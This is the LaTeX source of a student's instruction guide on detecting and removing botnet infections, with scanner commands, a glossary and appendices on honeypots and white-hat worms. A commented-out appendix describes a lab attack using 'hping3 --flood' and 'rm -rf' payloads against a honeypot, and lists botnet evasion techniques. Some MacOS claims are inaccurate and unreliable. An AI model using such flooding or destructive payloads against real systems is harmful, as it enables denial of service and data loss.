\documentclass{article}

% Language setting
\usepackage[english]{babel}

% Page size and margins
\usepackage[letterpaper,top=2cm,bottom=2cm,left=3cm,right=3cm,marginparwidth=1.75cm]{geometry}

% Packages
\usepackage{amsmath,amssymb,amsthm}
\usepackage{color}
\usepackage{xcolor}
\usepackage{indentfirst}
\usepackage{graphicx}
\usepackage{makecell}
\usepackage{listings}
\usepackage{array}
\usepackage{mathpazo}
\usepackage{csquotes}
\usepackage[
    style=ext-numeric,
    sorting=none,
    backend=biber,
    date=long,
    dateabbrev=false
]{biblatex}
\addbibresource{references.bib}

% Title font
\newcommand{\titlefont}{\fontfamily{ppl}\selectfont}

% Additional packages for formatting and boxes
\usepackage{titlesec}
\usepackage{colortbl}
\usepackage{multirow}
\usepackage{tabularx}
\usepackage[most]{tcolorbox}
\usepackage{soul} % For \hl
\usepackage{fancyhdr}
\usepackage{tikz}
\usepackage{booktabs}
\usepackage{mdframed}
\usepackage{enumitem}
\usepackage[colorlinks=true,allcolors=blue]{hyperref}
\usetikzlibrary{decorations,positioning,shapes.geometric,arrows.meta,fit,backgrounds,petri}

% Custom colors
\definecolor{codegreen}{rgb}{0,0.6,0}
\definecolor{codegray}{rgb}{0.5,0.5,0.5}
\definecolor{codepurple}{rgb}{0.58,0,0.82}
\definecolor{backcolour}{rgb}{0.95,0.95,0.92}

% Header/Footer
\pagestyle{fancy}
\fancyhead{}
\fancyfoot{}
\lhead{Instructor: Prof. Sharon Myers}
\rhead{How to Get Rid of a Botnet Infection.}
\lfoot{English 202C, Spring 2025, Instruction Guide}
\cfoot{\thepage}
\rfoot{UC Choudhary (ufc5009)}

\renewcommand{\footrulewidth}{0.4pt}

% Listings settings
\lstdefinestyle{mystyle}{
    backgroundcolor=\color{backcolour},
    commentstyle=\color{codegreen},
    keywordstyle=\color{magenta},
    numberstyle=\tiny\color{codegray},
    stringstyle=\color{codepurple},
    basicstyle=\ttfamily\footnotesize,
    breakatwhitespace=false,
    breaklines=true,
    captionpos=b,
    keepspaces=true,
    numbers=left,
    numbersep=5pt,
    showspaces=false,
    showstringspaces=false,
    showtabs=false,
    tabsize=2
}
\lstset{style=mystyle}



\newcounter{stepcounter}
\newenvironment{instructionstep}
{%
  \refstepcounter{stepcounter}%
  \subsection*{Step \thestepcounter}%
  \addcontentsline{toc}{subsection}{Step \thestepcounter}%
  \begin{tcolorbox}[
    colback=blue!5,
    colframe=blue!75!black,
    fonttitle=\bfseries\large\centering,
    title={Step \thestepcounter},
    enhanced,
    breakable,
    overlay={
      \node[opacity=0.6, scale=4, text=blue!30, rotate=45] at (frame.center) {Step \thestepcounter};
    }
  ]
}
{%
  \end{tcolorbox}
}



\begin{document}
\begin{titlepage}
  \vspace*{160pt}
  \begin{center}
    {\titlefont \Huge How to Get Rid of a Botnet Infection.}\\[1cm]
    {\LARGE Name: UC Choudhary\\[1cm]}
    {\LARGE PSU email: ufc5009@psu.edu\\[1cm]}
    {\LARGE PSU ID: 971854622\\[1cm]}
  \end{center}
  \thispagestyle{fancy}
  \vspace*{\fill}
\end{titlepage}

\tableofcontents
\newpage

\begin{tcolorbox}[
  colback=backcolour,
  colframe=red!75!black,
  title={Disclaimer},
  fonttitle=\bfseries\large\centering,
  arc=4mm,
  boxrule=1pt,
  left=10pt, right=10pt,
  top=10pt, bottom=10pt,
  enhanced
]
\textbf{Malicious use of a botnet} is a cybercrime and a serious criminal offense!\\[2mm]
\textbf{Please follow your organization guidelines if you suspect infection.} \\[2mm]
\textit{\textcolor{red}{Note:}} This instruction guide is a theoretical exercise and is not a replacement for a cybersecurity professional.
It is for educational purposes only.
\end{tcolorbox}

% ============================================================================
% Section 1: Introduction
% ============================================================================
\section{Introduction}
\noindent If your computer (which is relatively new) has been acting strange lately: slowing down for no good reason, heating up unexpectedly, or draining the battery unusually fast, you might dismiss it as age or bloatware. But what if it's something more sinister? Something quietly turning your system into a soldier for a hidden cyber army?
\noindent Botnets are widely exploited by organized hacking groups for launching \textbf{\textit{massive, coordinated attacks}} but this guide is geared towards defending against them.\\
The main body of this guide contains actionable steps, while detailed background information for graduate students and professionals is provided in the Appendices. The Glossary serves as an exhaustive list of technical terms that are not apparent. This document serves as a comprehensive, step-by-step \underline{instruction guide} designed to help readers \textbf{detect, remove, and counteract} botnet infections. 

\subsection{What you will need:}
\begin{enumerate}
    \item An infected \textbf{Linux} \textit{(Recommended)}, Windows, or MacOS computer \textbf{\textit{(not mobile phone)}}.
    \item Superuser or root access to the above machine. A superuser is a user who has permissions to read and write all files and code in their machine.
\end{enumerate}
\section{What is a Botnet?}
\noindent A botnet is a network of compromised devices controlled by a centralized \textbf{Command and Control (C2)} server. These devices—often unsuspecting—are commandeered to execute distributed attacks, data theft, and other malicious activities. The figure below offers an \textit{\textcolor{blue}{overview}} of a typical botnet structure.
\begin{tcolorbox}[
  colback=backcolour,
  colframe=blue!75!black,
  title={Botnet Structure},
  fonttitle=\bfseries\large\centering,
  arc=4mm,
  boxrule=1pt,
  left=10pt, right=10pt,
  top=10pt, bottom=10pt,
  enhanced
]
\centering
\includegraphics[width=\linewidth]{bnstruc.png}\\[2mm]
The structure of a botnet$^{\text{\href{https://www.a10networks.com/wp-content/uploads/how-a-bot-herder-attacks.png}{[7]}}}$.
\end{tcolorbox}
\begin{tcolorbox}[
  colback=backcolour,
  colframe=red!100!black,
  title={\underline{Prevention Tip}},
  fonttitle=\bfseries\large\centering,
  arc=4mm,
  boxrule=1pt,
  left=10pt, right=10pt,
  top=10pt, bottom=10pt,
  enhanced
]
The \textbf{\textit{\hl{BEST}}} way to prevent infection in the first place is to change all default passwords, from routers to emails to computer towers please do not use default or easily guessed passwords. Both the simple Mirai and sophisticated Hajime worms have a collection of factory passwords that they use to save brute force resources.\\ \quad
- Yamaguchi Sensei
\end{tcolorbox}
% ============================================================================
% Section 3: Detection and Removal of Botnet Infections
% ============================================================================
\section{Instruction Guide: Detection and Removal of Botnet Infections}
\noindent This section provides practical, step-by-step instructions to help you \underline{detect, isolate, and remove} a botnet infection from your system. Follow each step carefully and in sequence.

\begin{tcolorbox}[
    colback=yellow!10,
    colframe=black!80!black,
    title={\textbf{Important Reminder}},
    fonttitle=\bfseries\large\centering,
    arc=4mm,
    boxrule=1pt,
    enhanced
]
\textbf{\textcolor{red}{Before beginning 1}}, ensure you have \hl{backed up all important data}. Follow the instructions in sequence to maximize the likelihood of a successful cleanup.
\end{tcolorbox}
\begin{tcolorbox}[
    colback=yellow!10,
    colframe=black!80!black,
    title={\textbf{Note}},
    fonttitle=\bfseries\large\centering,
    arc=4mm,
    boxrule=1pt,
    enhanced
]
\textbf{\textcolor{red}{Before beginning 2}}, if you suspect that a computer from your organization has been infected this guide may not be for you. Organizations often have their own ways of dealing with infection which are not as simple as this guide. Some ways this is done is by using whitehat worms (see Appendix) and a botnet mesh.
\end{tcolorbox}
\begin{instructionstep}
\textbf{How to open the terminal:}\\[2mm]
The terminal is the command line interface of your computer where you can type a command and the computer will execute it for you:
\begin{itemize}
    \item Linux: \texttt{Ctrl + Alt + T}
    \item MacOS: Open spotlight \texttt{(Command+Space)} and search for \texttt{``terminal"}.
    \item Windows: Press the windows key and type \texttt{cmd} then click on \texttt{Command prompt}
\end{itemize}
\end{instructionstep}
\begin{instructionstep}
\textbf{Determine if You Are Infected:}\\[2mm]
Examine your system for signs of a botnet infection:
\begin{itemize}
    \item \textbf{\hl{Excessive system temperatures}} and constant fan activity.
    \item Rapid battery drain or decreased performance even when resource usage is low.
    \item \textbf{\textit{Unexpected spikes}} in network activity. All operating systems support \href{https://www.wireshark.org/}{\underline{Wireshark}}. Check packet transfers and manually determine whether you have been infected.
\end{itemize}
\end{instructionstep}

\begin{instructionstep}
\textbf{Disconnect from the Internet:}\\[2mm]
Immediately disconnect your device to prevent further communication with the botnet's C2 server:
\begin{itemize}
    \item Unplug your Ethernet cable.
    \item Disable your Wi-Fi connection.
\end{itemize}
\textit{\textbf{Logic:}} Isolating the device halts the reception of remote commands from the C2 server and prevents the infection from spreading to other systems.$^{\text{\href{https://securelist.com/hajime-the-mysterious-evolving-botnet/78160/}{[3]}}}$
\end{instructionstep}

\begin{instructionstep}
\textbf{Boot into Safe Mode (or Recovery Mode):}\\[2mm]
Booting into \hl{Safe Mode} or \hl{Recovery Mode} loads only essential system services, significantly reducing interference from malware.
\begin{itemize}
    \item \textbf{Windows:} Hold \texttt{Shift} while clicking \texttt{Restart} and select:
    \begin{quote}
    \texttt{Troubleshoot $\rightarrow$ Advanced Options $\rightarrow$ Startup Settings $\rightarrow$ Restart}\\
    Press \texttt{4} (or \texttt{F4}) for Safe Mode, or \texttt{5/F5} for Safe Mode with Networking.
    \end{quote}
    \item \textbf{Linux (Ubuntu):} Reboot and hold \texttt{Shift} to access the GRUB menu, then select:
    \begin{quote}
    \texttt{Advanced options for Ubuntu $\rightarrow$ (recovery mode)}\\
    Choose \texttt{Root} for shell access.
    \end{quote}
    \item \textbf{MacOS:} Users are not allowed to access the code, so you will have to pay a servicing fee and not use your machine for at least a week.
\end{itemize}
\textit{\textbf{Logic:}} Running the system in a minimal environment prevents most malware from launching, thereby facilitating the identification and removal of malicious components.
\end{instructionstep}

\begin{instructionstep}
\textbf{Run a Malware Scanner:}\\[2mm]
Use a reputable malware scanner to detect and quarantine malicious software:
\begin{itemize}
    \item \textbf{Windows:} Install tools such as \href{https://www.malwarebytes.com/}{\underline{Malwarebytes}} or \href{https://learn.microsoft.com/en-us/defender-endpoint/microsoft-defender-offline}{\underline{Windows Defender Offline}} from their official sites. Update definitions, run a full system scan, and quarantine any detected threats.
    \item \textbf{Linux:}
    \begin{itemize}
        \item For \href{https://www.clamav.net/}{\textbf{\underline{ClamAV}}}, execute:
        \begin{lstlisting}[language=bash, caption={Install and Run ClamAV}]
sudo apt update && sudo apt install clamav
sudo freshclam
clamscan -r --bell -i /
        \end{lstlisting}
        \item For \textbf{Rootkit Scanners}, install and run \texttt{chkrootkit} and \texttt{rkhunter}:
        \begin{lstlisting}[language=bash, caption={Run Rootkit Scanners}]
sudo apt install chkrootkit rkhunter
sudo chkrootkit
sudo rkhunter --update
sudo rkhunter --check
        \end{lstlisting}
    \end{itemize}
    \item \textbf{MacOS:} MacOS generally leads the industry in terms of security because of its foolproof security mechanisms. Most bugs are unable to penetrate MacOS deviced because Apple has full control over the hardware and software and does not have to optimize for third parties. Most of the important system files are locked away even for advanced users as apple does not trust their users to repair their own machines.
    
\end{itemize}
\textit{\textbf{Logic:}} A comprehensive malware scan is critical to identify and remove malicious files or rootkits that may be covertly operating on your system.$^{\text{\href{https://pmc.ncbi.nlm.nih.gov/articles/PMC7014485/\#sec3-sensors-20-00556}{[2]}}}$
\end{instructionstep}

\begin{instructionstep}
\textbf{Check for Persistence Mechanisms:}\\[2mm]
Examine and remove any startup entries or scripts that could allow the botnet to reinitialize after a reboot:
\begin{itemize}
    \item \textbf{Windows:} Use \texttt{msconfig}, review Task Scheduler, and inspect the Registry (via \texttt{regedit}) under:
    \begin{quote}
    \texttt{HKEY\_CURRENT\_USER\textbackslash Software\textbackslash Microsoft\textbackslash Windows\textbackslash CurrentVersion\textbackslash Run}\\
    \texttt{HKEY\_LOCAL\_MACHINE\textbackslash ...\textbackslash Run}
    \end{quote}
    \item \textbf{Linux/MacOS:} Check crontabs and autostart directories (e.g., \texttt{~/.config/autostart}, \texttt{/etc/systemd/system/}), and inspect login scripts (\texttt{.bashrc}, \texttt{.profile}).
\end{itemize}
\textit{\textbf{Logic:}} Persistence mechanisms enable malware to survive a reboot; eliminating these is crucial to prevent the botnet from re-establishing control.$^{\text{\href{https://www.usenix.org/conference/usenix-security-04/framework-understanding-botnet-based-attacks}{[6]}}}$
\end{instructionstep}

\begin{instructionstep}
\textbf{Full System Reinstall (Optional):}\\[2mm]
I have labelled this step as optional because doing a full reboot is simply not an option for a majority of users who do not have enough resources to backup their entire computer.
If the infection is deeply embedded (e.g., with root privileges or within firmware) and persists despite cleanup efforts, a full system reinstall is highly recommended. It is the easiest and quickest way to kill any persisting malware.:
\begin{itemize}
    \item \textbf{\textcolor{red}{Backup}} all critical files—ensure you do not copy infected executables.
    \item Download a fresh operating system ISO from your vendor.
    \item Format your drive during reinstallation and install the OS anew.
\end{itemize}
\end{instructionstep}


\begin{instructionstep}
\textbf{Change All Your Passwords:}\\[2mm]
Once your system is verified as clean, update the passwords for all your sensitive accounts:
\begin{itemize}
    \item Change passwords for email, banking, social media, and cloud storage.
    \item Use a robust password manager to generate and store strong, unique passwords.
    \item It is recommended to perform this step using a known-clean device.
\end{itemize}
\textit{\textbf{Logic:}} Infections may compromise your credentials, enabling unauthorized access. Updating passwords prevents further misuse of any stolen information.
\end{instructionstep}

\noindent \textbf{Conclusion}\\[2mm]
The procedures outlined in this guide provide a systematic, scientifically grounded methodology for detecting, isolating, and eliminating botnet infections. By adhering to these rigorously detailed steps—from the initial detection of anomalies and network isolation to comprehensive malware scanning and the removal of persistence mechanisms—system administrators and end users can restore and maintain system integrity. Furthermore, the advanced countermeasure strategies detailed in the Appendices underscore the importance of proactive cybersecurity practices. It is imperative to continuously update software, exercise caution with downloads, and regularly scan systems to preclude future threats.

% ============================================================================
% Section 4: Glossary of Key Terms
% ============================================================================

\section*{Glossary of Key Terms}
\addcontentsline{toc}{section}{Glossary of Key Terms}
\begin{itemize}
    \item \textbf{Access Authorization:} The process of granting or denying specific requests to obtain and use information and related information processing.
    \item \textbf{Access Control:} Mechanisms that restrict unauthorized users from accessing specific resources or information within a system.
    \item \textbf{Adware:} Software that automatically displays or downloads advertising material when a user is online.
    \item \textbf{Advanced Persistent Threat (APT):} A prolonged and targeted cyberattack in which an intruder gains access to a network and remains undetected for an extended period to gather sensitive information.
    \item \textbf{Authentication:} The process of verifying the identity of a user, device, or entity in a computer system.
    \item \textbf{Authorization:} The process of determining whether a user, device, or entity has permission to access a resource.
    \item \textbf{Backdoor:} A method of bypassing normal authentication to gain access to a system.
    \item \textbf{Botnet:} A network of compromised devices under centralized control.
    \item \textbf{Brute Force Attack:} An attempt to gain unauthorized access by systematically trying all possible combinations of passwords or keys.
    \item \textbf{C2 (Command and Control):} The infrastructure utilized by botnets to control compromised systems.
    \item \textbf{DDoS (Distributed Denial of Service):} An attack that overwhelms a network or machine with traffic to make it unavailable.
    \item \textbf{Denial-of-Service (DoS) Attack:} An attack aimed at making a machine or resource unavailable by flooding it with illegitimate requests.
    \item \textbf{Encryption:} The process of converting data into a code to prevent unauthorized access.
    \item \textbf{Exploit:} A piece of software or code that takes advantage of vulnerabilities in a system.
    \item \textbf{Firewall:} A network security system that controls incoming and outgoing traffic based on predetermined rules.
    \item \textbf{GRUB (Grand Unified Bootloader):} A bootloader that mounts the operating system into memory at startup.
    \item \textbf{Hashing:} The process of converting input data into a fixed-size digest to represent the original data.
    \item \textbf{Heuristic Analysis:} A method used by antivirus software to detect new or unknown malware based on behavior patterns.
    \item \textbf{Honeypot:} A decoy system designed to lure and monitor attackers.
    \item \textbf{IDS (Intrusion Detection System):} Monitors system or network activity for malicious events and reports them.
    \item \textbf{Intrusion Detection System (IDS):} See: \textbf{IDS}.
    \item \textbf{Keylogger:} Software that records keystrokes on a device to capture sensitive information.
    \item \textbf{Latex:} This document is created purely in latex.
    \item \textbf{Malware:} Malicious software designed to infiltrate or damage a computer system.
    \item \textbf{Man-in-the-Middle (MitM) Attack:} An attacker secretly intercepts communication between two parties.
    \item \textbf{Multi-Factor Authentication (MFA):} A security system requiring multiple authentication methods.
    \item \textbf{Patch:} A software update to fix bugs or vulnerabilities.
    \item \textbf{Patch Management:} The process of acquiring, testing, and installing patches for software systems.
    \item \textbf{Payload:} The part of malware that performs the malicious action after execution.
    \item \textbf{Penetration Testing:} A simulated cyberattack to check for exploitable vulnerabilities.
    \item \textbf{Phishing:} Fraudulent attempts to acquire sensitive information by pretending to be a trustworthy source.
    \item \textbf{PN2:} An advanced Petri net modeling approach for representing nested, concurrent interactions.
    \item \textbf{Privilege Escalation:} Gaining elevated access to protected resources through exploitation.
    \item \textbf{Public Key Infrastructure (PKI):} A framework for managing public-key encryption and digital certificates.
    \item \textbf{Ransomware:} Malware that encrypts data and demands a ransom to unlock it.
    \item \textbf{RootAccess:} A user who has permission to Create, Read, Update and Delete \textbf{\textit{almost}} all the files, folders and executables in the machine.
    \item \textbf{Rootkit:} A collection of tools that provide unauthorized access and hide their presence.
    \item \textbf{Sandbox:} A security mechanism for isolating running programs to prevent the spread of vulnerabilities.
    \item \textbf{Session Hijacking:} An attack where a user's active session is taken over by an attacker.
    \item \textbf{Sniffing:} Capturing and monitoring network traffic to extract sensitive data.
    \item \textbf{Social Engineering:} Manipulating individuals into divulging confidential information.
    \item \textbf{Spoofing:} Masquerading as a trusted source to deceive a target.
    \item \textbf{Spyware:} Software that secretly gathers user data without consent.
    \item \textbf{SQL Injection:} Injecting malicious SQL code to manipulate a database.
    \item \textbf{Terminal:} A command-line interface (CLI) used to execute shell commands.
    \item \textbf{Threat Modeling:} A structured approach to identifying and addressing security threats.
    \item \textbf{Tikz:} A Latex package I use to draw figures.
    \item \textbf{Trojan Horse:} Malware disguised as legitimate software.
    \item \textbf{Two-Factor Authentication (2FA):} A security process requiring two separate authentication factors.
    \item \textbf{Virtual Private Network (VPN):} Encrypts your internet connection and hides your IP address.
    \item \textbf{Virtualization:} Creating a virtual version of hardware, storage, or OS environments.
    \item \textbf{Vulnerability:} A weakness in a system that can be exploited by attackers.
    \item \textbf{Vulnerability Assessment:} The process of identifying and evaluating security weaknesses.
    \item \textbf{Whaling:} A phishing attack that targets high-profile individuals or executives.
    \item \textbf{White-Hat Worm:} A defensive worm designed to remove or suppress malware.
    \item \textbf{Worm:} A type of malware that replicates itself and spreads to other computers.
    \item \textbf{Zero-Day:} A vulnerability that is unknown to developers and exploited before a patch is available. There is no known defense to this vulnerability which is why most of the tech sector has a bug bounty system.
    \item \textbf{Zero-Day Attack:} An attack exploiting a zero-day vulnerability.
\end{itemize}

\section{How does a Whitehat worm clean an infected machine?}

\begin{figure}[h!]
\begin{tcolorbox}[
    colback=blue!5!white,
    colframe=blue!75!black,
    title={Simplified PN2 Model},
    fonttitle=\bfseries\large\centering,
    arc=4mm,
    boxrule=1pt,
    enhanced
]
\centering

\begin{tikzpicture}[node distance=3cm, on grid, auto,
    every place/.style={draw=blue!75, fill=blue!20, thick, minimum size=8mm},
    every transition/.style={draw=black!75, fill=black!20, thick},
    bend angle=45]
    % Places
    \node[place] (clean) [label=above:\textbf{Clean Device}] {};
    \node[transition] (mal_infect) [right=of clean] {Malware Infection};
    \node[place] (infected) [right=of mal_infect, label=above:\textbf{Infected Device}] {};
    \node[transition] (white_infect) [below=of infected] {White-Hat Infection};
    \node[place] (neutralized) [left=of white_infect, label=above:\textbf{Neutralized Device}] {};
    \node[transition] (c2_disrupt) [below=of neutralized] {C2 Disruption};
    \node[place] (secured) [left=of c2_disrupt, label=above:\textbf{Secured Device}] {};
    
    % Arrows
    \draw[->] (clean) -- (mal_infect);
    \draw[->] (mal_infect) -- (infected);
    \draw[->] (infected) -- (white_infect);
    \draw[->] (white_infect) -- (neutralized);
    \draw[->] (neutralized) -- (c2_disrupt);
    \draw[->] (c2_disrupt) -- (secured);
\end{tikzpicture}
\caption{Simplified PN2 model including C2 disruption.}
\label{fig:pn2}
\end{tcolorbox}
\end{figure}

% ============================================================================
% Appendices
% ============================================================================
\newpage
\appendix

\section*{Appendix A: Background on Honeypots and White-Hat Worms}
\addcontentsline{toc}{section}{Appendix A: Background on Honeypots and White-Hat Worms}
\noindent \textbf{Honeypots} are \textit{specialized decoy systems} designed to attract, detect, and analyze malicious activity. They are \underline{critical tools} in cybersecurity because they:
\begin{itemize}
    \item \textbf{\textcolor{blue}{Detect Intrusions:}} Honeypots are deliberately made vulnerable to lure attackers, enabling early detection of intrusion attempts. For an in-depth discussion, see Provos and Holz$^{\text{\href{https://www.worldcat.org/title/virtual-honeypots-from-botnet-tracking-to-intrusion-detection/oclc/86193976}{[1]}}}$.
    \item \textbf{\textcolor{red}{Facilitate Analysis:}} They capture detailed information about attack methods, malware signatures, and attacker behavior. Refer to Spitzner's work$^{\text{\href{https://www.pearson.com/us/higher-education/program/Spitzner-Honeypots-Tracking-Attackers/PGM33233.html}{[4]}}}$ and the survey by Bhatia and Verma$^{\text{\href{https://www.ijcaonline.org/archives/volume112/number12/19213-2015}{[5]}}}$.
    \item \textbf{\hl{Deception:}} By imitating pseudogenuine systems, honeypots \underline{mislead attackers} and divert them from critical assets. Additional perspectives are provided by Sanders$^{\text{\href{https://www.crowdstrike.com/en-us/cybersecurity-101/exposure-management/honeypots/}{[8]}}}$, Human Security$^{\text{\href{https://www.humansecurity.com/learn/blog/expert-q-a-how-to-use-honeypots-to-lure-and-trap-bots/}{[9]}}}$, and Taylor \& Francis$^{\text{\href{https://taylorandfrancis.com/knowledge/Engineering_and_technology/Computer_science/Honeypot/}{[10]}}}$.
\end{itemize}

\vspace{3mm}
\noindent \textbf{White-Hat Worms} represent a \textit{\underline{novel countermeasure}} designed to mitigate botnet infections:
\begin{itemize}
    \item They infiltrate and neutralize malicious code by supplanting it on compromised devices.
    \item Their self-limiting operation ensures minimal collateral damage.
    \item Detailed analysis is provided by Yamaguchi et al.$^{\text{\href{https://pmc.ncbi.nlm.nih.gov/articles/PMC7014485/\#sec3-sensors-20-00556}{[2]}}}$.
\end{itemize}

\section*{Appendix B: Advanced Counterattack Strategies and PN2 Modeling}
\addcontentsline{toc}{section}{Appendix B: Advanced Counterattack Strategies and PN2 Modeling}
\noindent \textbf{Advanced Counterattack Strategies} extend beyond basic removal by employing proactive measures to \underline{neutralize} botnet operations. One effective strategy involves deploying a white-hat worm that:
\begin{itemize}
    \item \textbf{\hl{Self-Limiting Operation:}} Operates for a limited duration before self-destruction.
    \item \textbf{\textit{Displacement of Malicious Code:}} Replaces harmful agents on infected systems.
    \item \textbf{\underline{Command Injection:}} Intercepts and spoofs communications between infected devices and the C2 server.
\end{itemize}
This methodology is elaborated in Yamaguchi et al.$^{\text{\href{https://pmc.ncbi.nlm.nih.gov/articles/PMC7014485/\#sec3-sensors-20-00556}{[2]}}}$.

\vspace{3mm}
\noindent \textbf{\hl{PN2 (Petri Net in a Petri Net)}} is an \textit{\underline{advanced modeling technique}} for capturing complex, nested interactions within multi-agent systems. It is particularly valuable for:
\begin{itemize}
    \item \textbf{\textcolor{blue}{Concurrent Processes:}} Modeling simultaneous actions of various agents (e.g., a white-hat worm versus malicious software).
    \item \textbf{\textcolor{red}{State Transitions:}} Visually representing the progression from an infected state to a secured state.
    \item \textbf{\hl{Timing and Resource Constraints:}} Incorporating realistic temporal and resource limitations in simulations.
\end{itemize}
For further details, consult Yamaguchi et al.$^{\text{\href{https://pmc.ncbi.nlm.nih.gov/articles/PMC7014485/\#sec3-sensors-20-00556}{[2]}}}$ and the framework by Yegneswaran, Porras, and Bluementhal$^{\text{\href{https://www.usenix.org/conference/usenix-security-04/framework-understanding-botnet-based-attacks}{[6]}}}$.



% \section*{Appendix C: Attack Orchestration and Comparative Analysis}
% \addcontentsline{toc}{section}{Appendix C: Attack Orchestration and Comparative Analysis}
% \noindent
% \subsection*{Overview of the Attack Scenario}
% \noindent
% In this experiment, a simulated botnet attack was launched from a Kali Linux Docker VM against a honeypot listener operating on an Ubuntu system. The attacker used a combination of custom TCP payloads and high-frequency flooding techniques (e.g., via \texttt{hping3 --flood}) to overload the honeypot service listening on TCP port 4444.
% \noindent

% The screenshots and logs (Figures \ref{fig:listener}, \ref{fig:tcpdump-lsof}) capture:
% \begin{itemize}
%     \item Successful connections and payload deliveries from the attacking VM.
%     \item TCP dump of incoming SYN packets and active socket states.
%     \item The listener transitioning through \texttt{ESTABLISHED} to \texttt{CLOSE\_WAIT} states.
%     \item High-volume packet bursts and their impact on system response.
% \end{itemize}

% \subsection*{Table 1: Custom Botnet Attack vs Professional Botnet}
% \begin{table}[h!]
% \centering
% \renewcommand{\arraystretch}{1.4}
% \begin{tabular}{|p{4.2cm}|p{5.5cm}|p{5.5cm}|}
% \hline
% \rowcolor{blue!15}
% \textbf{Feature} & \textbf{My Custom Attack} & \textbf{Professional Botnet} \\
% \hline
% \textbf{Payload Delivery} & Fixed, hardcoded payloads (e.g., \texttt{rm -rf}, \texttt{heartbeat=alive}) via raw TCP & Encrypted, polymorphic payloads that adapt per target \\
% \hline
% \textbf{C2 Communication} & Centralized, static IP/port (192.168.110.213:4444) & Dynamic C2: peer-to-peer, domain generation algorithms (DGA), or social media steganography \\
% \hline
% \textbf{Flooding Tool} & High-volume SYN packets via \texttt{hping3 --flood} & Throttled, stealthy traffic mimicking user behavior (HTTP/TLS/QUIC) \\
% \hline
% \textbf{Persistence} & None; no post-infection survival & Crontab, systemd, registry edits, and rootkits for long-term presence \\
% \hline
% \textbf{Kernel Detection} & Flooding causes kernel to \texttt{kill -9} due to resource exhaustion & Memory-resident malware, process hollowing, sandbox detection to avoid kernel scrutiny \\
% \hline
% \textbf{Listener Behavior} & Custom socket-based listener with fixed thread pool & Dynamic service injection and stealthy socket hijacking \\
% \hline
% \textbf{Packet Obfuscation} & Clear-text TCP payloads & TLS encryption, DNS tunneling, or covert channel techniques \\
% \hline
% \textbf{Entry Vector} & Manual deployment, requires listener on target & Exploits open services like SSH, RDP, or web servers; no manual setup needed \\
% \hline
% \textbf{Outbound Beaconing} & Bots push traffic to static listener over LAN & Encrypted outbound beaconing (e.g., HTTPS, DNS, Telegram API) \\
% \hline
% \textbf{Reverse Shell} & Not implemented; relies on raw sockets & Reverse shells with privilege escalation and polymorphic callbacks \\
% \hline
% \textbf{Traffic Visibility} & Easy to inspect; raw TCP data is clear-text & Encrypted and obfuscated to mimic normal web or app traffic \\
% \hline
% \textbf{Persistence Mechanism} & None; scripts run until killed & Full system persistence through service registration, hidden jobs, or rootkits \\
% \hline
% \textbf{Stealth} & Loud, obvious; visible in netstat and top & Designed to evade AV, IDS/IPS, and sandbox environments \\
% \hline
% \textbf{Environment Awareness} & Runs in any Docker/VM blindly & Detects virtualization, disables itself in analysis environments \\
% \hline
% \end{tabular}
% \caption{Differences Between Custom Botnet Attack and Professional Botnets}
% \label{tab:comparison}
% \end{table}


% \subsection*{Table 2: Evasion Techniques Used by Advanced Botnets}
% \begin{table}[h!]
% \centering
% \renewcommand{\arraystretch}{1.4}
% \begin{tabular}{|p{5cm}|p{9.5cm}|}
% \hline
% \rowcolor{blue!15}
% \textbf{Technique} & \textbf{Description and Purpose} \\
% \hline
% \textbf{Process Hollowing} & Injects malicious code into legitimate processes to evade detection by AV or kernel monitors \\
% \hline
% \textbf{Fileless Execution} & Uses PowerShell, WMI, or /dev/shm on Linux to execute without ever writing to disk \\
% \hline
% \textbf{Sandbox Detection} & Detects virtual environments using CPU ID, MAC address, or timing attacks; exits silently if found \\
% \hline
% \textbf{Dynamic Sleep Delays} & Waits for minutes/hours before executing payload to bypass heuristics and sandbox triggers \\
% \hline
% \textbf{Traffic Shaping} & Mimics user browsing behavior and uses TLS/QUIC protocols to hide C2 traffic \\
% \hline
% \textbf{Rootkits and Kernel Modules} & Loadable modules on Linux (or drivers on Windows) that hide files, processes, and sockets \\
% \hline
% \textbf{Self-Mutating Code} & Changes its own binary signature at runtime to evade signature-based detection \\
% \hline
% \end{tabular}
% \caption{Evasion Tactics Used by Advanced Botnets}
% \label{tab:evasion}
% \end{table}

% \subsection*{Illustrations}

% \newpage
% \subsection*{TikZ Diagram: My Custom Attack}
% \begin{figure}[h!]
% \centering
% \begin{tikzpicture}[node distance=2.5cm, every node/.style={font=\small},
%     device/.style={rectangle, draw=black, fill=blue!15, minimum width=2.5cm, minimum height=1cm},
%     cloud/.style={ellipse, draw=black, fill=gray!20, minimum width=2cm}]

%     \node[device] (attacker) {Kali linux attacker (Bot1)};
%     \node[device, below=of attacker] (attacker2) {MacOS attacker (Bot2)};
%     \node[cloud, right=of attacker] (internet) {LAN/Bridge};
%     \node[device, right=of internet] (honeypot) {Ubuntu Honeypot (port 4444)};

%     \draw[->, thick] (attacker) -- node[above]{SYN Flood} (internet);
%     \draw[->, thick] (attacker) -- node[below]{TCP Payloads} (internet);
%     \draw[->, thick] (attacker2) -- node[left]{C2 beacon} (internet);
%     \draw[->, thick] (attacker2) -- node[right]{Telnet Attempts} (internet);
%     \draw[->, thick] (internet) -- node[above]{transmits} (honeypot);
% \end{tikzpicture}
% \caption{Basic Custom Botnet Flooding to Static Target}
